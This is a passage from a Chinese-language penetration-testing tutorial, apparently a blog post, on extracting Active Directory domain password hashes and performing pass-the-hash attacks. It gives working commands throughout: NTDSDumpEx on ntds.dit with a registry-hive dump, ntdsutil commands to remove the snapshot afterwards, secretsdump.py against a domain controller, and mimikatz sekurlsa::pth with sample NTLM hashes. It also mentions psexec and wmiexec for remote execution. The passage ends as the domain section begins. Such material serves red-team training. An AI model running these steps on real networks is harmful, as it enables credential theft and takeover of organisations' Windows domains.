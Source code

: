 `NTDSDumpEx -d ntds.dit -o domain.txt -s system.hiv    (system.hive文件获取:reg save hklm\system system.hive) NTDSDumpEx -d ntds.dit -o domain.txt -r               (此命令适用于在域控本地执行)`

![](https://img2020.cnblogs.com/blog/1561366/202008/1561366-20200823212336212-1217737708.png)  
![](https://img2020.cnblogs.com/blog/1561366/202008/1561366-20200823212350624-1167474990.png)

最后记得卸载删除快照：

Copy

`ntdsutil snapshot "unmount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit ntdsutil snapshot "delete  {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit`

#### 3.3 secretsdump脚本直接导出域hash

为什么要再提一遍secretsdump呢，因为它可以直接导出，说白了，简单粗暴：

Copy

`python secretsdump.py rabbitmask:123456@192.168.15.181`

首先它会导出本地SAM中的hash，然后是所有域内用户的IP，全部获取成功

### 0x04 哈希传递攻击PTH

#### 4.1 工作组环境

当我们获得了一台主机的NTLM哈希值，我们可以使用mimikatz对其进行哈希传递攻击。执行完命令后，会弹出cmd窗口。

Copy

`#使用administrator用户的NTLM哈希值进行攻击 sekurlsa::pth /user:administrator /domain:192.168.10.15 /ntlm:329153f560eb329c0e1deea55e88a1e9`

Copy

`#使用xie用户的NTLM哈希值进行攻击 sekurlsa::pth /user:xie /domain:192.168.10.15 /ntlm:329153f560eb329c0e1deea55e88a1e9`

在弹出的cmd窗口，我们直接可以连接该主机，并且查看该主机下的文件夹。

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119154646838-949025649.png)

或者可以直接将该主机的C盘映射到本地的K盘。  
![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119154740616-176611090.png)

注：只能在 mimikatz 弹出的 cmd 窗口才可以执行这些操作，注入成功后，可以使用psexec、wmic、wmiexec等实现远程执行命令。

#### 4.2 域环境

在域环境中，当我们获得了域内用户的NTLM哈希值，我们可以使用域内的一台主机用mimikatz对域控进行哈希传递攻击。执行完命令后，会弹出cmd窗口。前提是我们必须拥有域内任意一台主机的本地 administrator 权限和获得了域用户的NTLM哈希值

域：xie.com  
域控：WIN2008.xie.com

Copy
